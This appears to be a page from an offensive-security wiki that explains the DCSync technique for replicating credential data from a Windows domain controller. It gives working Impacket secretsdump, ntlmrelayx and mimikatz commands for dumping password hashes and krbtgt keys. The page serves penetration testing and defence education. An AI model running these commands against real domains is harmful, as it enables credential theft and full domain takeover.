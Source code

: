```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
authors: ShutdownRepo
category: ad
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](../../kerberos/forged-tickets/index) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](ntds.md) but the practical aspect differ. A DCSync is not a simple copy & parse of the NTDS.dit file, it's a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI (Directory Replication Service API) to replicate data (including credentials) from a domain controller.

This attack requires domain admin privileges to succeed (more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](../../dacl/grant-rights.md).

> [!TIP]
> A setting exists in the account policy or when creating users telling the domain controller to store the user's password using reversible encryption instead of irreversible hashing. This allows attackers to retrieve the passwords in clear-text.

## Practice

::: tabs

=== UNIX-like

On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../bruteforcing/stuffing.md), [pass-the-hash](../../ntlm/pth.md) or [pass-the-ticket](../../kerberos/ptt.md).

```bash
# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```

The secretsdump script creates the following files.

| File | Content |
| ---------- | --------------------------------------------------- |
| .ntds | LM and NT password hashes |
| .cleartext | Passwords stored using reversible encryption |
| .kerberos | Kerberos keys (DES, AES128 and AES256) |
| .sam | Domain controller's [SAM secrets](sam-and-lsa-secrets.md) |
| .secrets | Domain controller's [LSA secrets](sam-and-lsa-secrets.md) |

This attack can also be operated with a [relayed NTLM authentication](../../ntlm/relay.md), but only if the target domain controller is vulnerable to [Zerologon](../../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```


=== Windows

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync) to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](../../kerberos/forged-tickets/golden) for example. For this attack to work, the following mimikatz command should run in an elevated context (i.e. through runas with plaintext password, [pass-the-hash](../../ntlm/pth.md) or [pass-the-ticket](../../kerberos/ptt.md)).

```bash
# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
```

:::


> [!TIP]
> For an undocumented reason, Impacket's secretsdump relies on SMB before doing a DCSync (hence requiring a `CIFS/domaincontroller` SPN when using Kerberos tickets) while Mimikatz relies on LDAP before doing the DCSync (hence requiring a `LDAP/domaincontroller` SPN when using Kerberos tickets)

## Resources

[https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync)
